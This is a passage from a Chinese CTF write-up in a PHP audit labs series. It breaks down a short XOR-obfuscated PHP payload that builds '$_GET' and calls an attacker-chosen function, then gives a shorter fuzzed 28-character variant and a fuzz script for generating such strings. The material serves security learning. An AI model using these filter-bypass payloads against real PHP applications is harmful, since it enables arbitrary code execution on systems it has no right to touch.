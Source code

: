 ```php
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
拆解如下：        第1个GET请求参数：code                &     第2个GET请求参数：_
   $_="`{{{"^"?<>/";         ${$_}[_](${$_}[__]);     &     _=getFlag
   $_="_GET";                $_GET[_]($_GET[__]);     &     _=getFlag
                             getFlag($_GET[__]);
                             getFlag(null);
```

这个 **payload** 的长度是 **37** ，符合题目要求的 **小于等于40** 。另外，我 **fuzz** 出了长度为 **28** 的 **payload** ，如下：

```php
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```

![25](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/25.png)

这里也给出 **fuzz** 脚本，方便大家进行 **fuzz** 测试：

```php
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);

?>
```

![26](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/26.png)
